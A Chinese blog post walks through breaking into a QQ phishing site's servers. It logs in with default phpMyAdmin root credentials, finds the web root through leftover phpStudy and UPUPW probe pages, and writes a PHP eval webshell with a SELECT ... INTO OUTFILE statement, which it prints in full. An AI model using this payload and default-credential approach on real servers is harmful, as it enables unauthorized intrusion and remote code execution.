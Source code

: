 ```yaml
---
title:  渗透实战之QQ空间钓鱼网站
date: 2019-11-19 12:31:23
author: dylan
top: false
cover: false
password: 
categories: web安全
tags: 
    - 钓鱼网站
    - 渗透实战
    - phpmyadmin getshell
---
```

# 0x00 前言

打开邮箱，发现垃圾箱里躺着一封垃圾邮件

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191119123537.png)

一看就是钓鱼邮件，话不多说，搞他。

没什么技术含量，看看就好。

# 0x01 渗透过程
## 第一部分

直接打开链接

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191119123923.png)

除了登陆可以点击，其他超链接都是假的，也太不敬业了。

然后发现地址栏域名和垃圾邮箱里面的给的链接的域名不一样，
是跳转过去的，遂访问初始的域名。

打开一看，`phpStudy 探针 2014` 页面。

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191119153349.png)


phpstudy 探针 可以测试 数据库连接，试试看弱口令，`phpstudy`数据库默认账号密码`root`
测试成功。

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191119153955.png)

然后尝试登陆`phpmyadmin`

直接访问`url+/phpMyAdmin/`,使用测试成功的弱口令登陆。

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191119154545.png)

数据库里面没什么东西，因为在`探针页面`知道了物理路径，所有直接写一句话木马，连接之。

`select '<?php @eval($_POST[pass]);?>' into outfile 'D:/phpstudy/WWW/test.php';`

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191119155056.png)

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191119155336.png)


这个服务器里面啥都没有，只有几个用来跳转连接的php文件，
就回到开头，继续搞qq钓鱼网站的。

## 第二部分

QQ钓鱼站的后台，找了一圈没找到。

访问一个不存在的文件，提示页面如下图
发现是用`UPUPW`搭建的，猜测会不会也有`phpmyadmin`

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191119155929.png)

尝试访问`url+/phpMyAdmin/` ，返回 **404**

又尝试访问`url+/pmd/`，成了

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191119160659.png)

尝试弱口令成功登陆

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191119160813.png)

准备写入一句话木马，不知道物理路径。
使用语句

`select @@basedir`

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191119161156.png)

然后尝试在`upupw`默认网站路径下写入木马
提示：`(Errcode: 2 "No such file or directory")`
写入失败，文件夹不存在



然后又尝试了其他路径名，均以失败告终
一筹莫展之际，
想到`upupw`会不会也有探针页面，会不会没删？
百度之，`upupw`默认的探针页面是`u.php`,
尝试访问

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191119161857.png)

得到网站物理路径，然后又是愉快的上木马连接了。


# 参考文章

[PhpMyAdmin 网站路径信息获取](https://bbs.ichunqiu.com/thread-19893-1-1.html)
[总结下写phpmyadmin写shell的方法](https://blog.csdn.net/q1352483315/article/details/88904001)
[phpmyadmin getshell姿势 - 先知社区](https://xz.aliyun.com/t/3283)


